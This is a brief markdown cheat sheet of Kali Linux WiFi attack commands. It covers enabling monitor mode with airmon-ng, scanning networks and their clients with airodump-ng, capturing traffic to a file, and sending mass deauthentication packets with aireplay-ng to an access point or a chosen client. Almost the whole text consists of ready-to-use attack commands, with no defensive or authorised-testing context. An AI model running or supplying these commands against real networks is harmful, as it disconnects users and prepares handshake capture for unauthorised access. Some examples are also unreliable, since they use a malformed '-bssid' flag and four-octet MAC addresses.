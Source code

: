 ## Kali Linux WiFi Information Commands
1. `ifconfig`
2. `iwconfig`
3. `airmon-ng start wlan0` (replace `wlan0` with your device name)
4. `airodump-ng wlan0` - Shows all networks around
5. `airodump-ng --channel 8 --bssid [MAC address] wlan0mon` - Shows devices connected to the selected WiFi network

## AIRODUMP-NG

- `airodump-ng --channel <channel> -bssid <BSSID> --write <file_name> <interface>`
  
  Example: `airodump-ng --channel 12 --bssid 40:30:20:10 --write test mon0`

## Deauthentication Attack

- `aireplay-ng --deauth <#packets> -a <AP> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 mon0`

## Target Attack

- `aireplay-ng --deauth <#packets> -a <AP> -c <target> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 -c 00:AA:11:BB mon0`
